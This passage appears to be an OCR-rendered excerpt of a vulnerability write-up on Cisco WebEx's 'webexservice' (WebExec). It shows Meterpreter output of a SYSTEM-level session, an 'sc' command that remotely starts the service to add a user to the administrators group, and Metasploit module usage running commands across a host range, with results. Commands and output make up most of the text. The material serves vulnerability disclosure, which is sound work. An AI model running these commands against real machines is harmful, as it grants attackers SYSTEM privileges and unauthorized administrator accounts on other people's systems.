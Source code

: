 ```
[*] Writing 73802 bytes to %SystemRoot%\Temp\yqaKLvdn.exe...
[*] Launching service...
[*] Sending stage (179779 bytes) to 172.16.222.132
[*] Meterpreter session 2 opened (172.16.222.1:9001 -> 172.16.222.132:49574) at 2018-08-31 14:45:25 -0700
[*] Service started...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## Remote exploit

We actually spent over a week knowing about this vulnerability without realizing that it could be used remotely! The simplest exploit can still be done with the Windows <tt>sc</tt> command. Either create a session to the remote machine or create a local user with the same credentials, then run <tt>cmd.exe</tt> in the context of that user (<tt>runas /user:newuser cmd.exe</tt>). Once that's done, you can use the exact same command against the remote host:

```
c:\>sc \\10.0.0.0 start webexservice a software-update 1 net localgroup administrators testuser /add
```

The command will run (and a GUI will even pop up!) on the other machine.

## Remote exploitation with Metasploit

To simplify this attack, I wrote a pair of Metasploit modules. [One is an auxiliary module that implements this attack](https://github.com/CounterHack/webexec-metasploit/blob/cisco-webex-exploit/modules/auxiliary/admin/smb/webexec_command.rb) to run an arbitrary command remotely, and [the other is a full exploit module](https://github.com/CounterHack/webexec-metasploit/blob/cisco-webex-exploit/modules/exploits/windows/smb/webexec.rb). Both require a valid SMB account (local or domain), and both mostly depend on the [WebExec library I wrote](https://github.com/CounterHack/webexec-metasploit/blob/cisco-webex-exploit/lib/msf/core/exploit/smb/client/webexec.rb).

Here is an example usage for the utility module:

```
msf5 > use auxiliary/admin/smb/webexec_command
msf5 auxiliary(admin/smb/webexec_command) > set RHOSTS 192.168.1.100-110
RHOSTS => 192.168.56.100-110
msf5 auxiliary(admin/smb/webexec_command) > set SMBUser testuser
SMBUser => testuser
msf5 auxiliary(admin/smb/webexec_command) > set SMBPass testuser
SMBPass => testuser
msf5 auxiliary(admin/smb/webexec_command) > set COMMAND calc
COMMAND => calc
msf5 auxiliary(admin/smb/webexec_command) > exploit

[-] 192.168.56.105:445    - No service handle retrieved
[+] 192.168.56.105:445    - Command completed!
[-] 192.168.56.103:445    - No service handle retrieved
[+] 192.168.56.103:445    - Command completed!
[+] 192.168.56.104:445    - Command completed!
[+] 192.168.56.101:445    - Command completed!
[*] 192.168.56.100-110:445 - Scanned 11 of 11 hosts (100% complete)
[*] Auxiliary module execution completed
```
